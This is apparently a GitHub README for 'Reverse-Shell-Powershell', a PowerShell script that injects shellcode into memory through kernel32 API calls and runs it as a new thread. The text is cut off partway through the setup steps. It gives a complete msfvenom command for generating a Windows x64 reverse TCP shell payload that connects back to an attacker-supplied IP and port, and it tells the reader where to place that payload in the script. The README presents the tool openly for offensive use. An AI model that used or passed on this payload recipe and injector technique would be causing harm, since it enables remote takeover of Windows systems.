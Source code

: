 # PowerShell Shellcode Injector

## Description
This project provides a PowerShell script that uses Windows API functions to inject shellcode into memory and execute it as a separate thread in the system. The script utilizes functions from `kernel32.dll` to allocate memory, create a thread, and wait for the result.


## Create ShellCode
- Change the line 37.
- msfvenom -p windows/x64/shell_reverse_tcp lhost=YOUR_IP lport=PORT -f powershell

## Features
- Allocates memory using `VirtualAlloc`.
- Creates a new thread to execute the shellcode.
- Uses the `WaitForSingleObject` API to wait for the thread to finish execution.

## Installation and Usage
### Requirements
- PowerShell 5.1 or higher.
- Administrator privileges on the machine to allocate memory and create threads.

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/thangcongtran/Reverse-Shell-Powershell.git
   cd repository
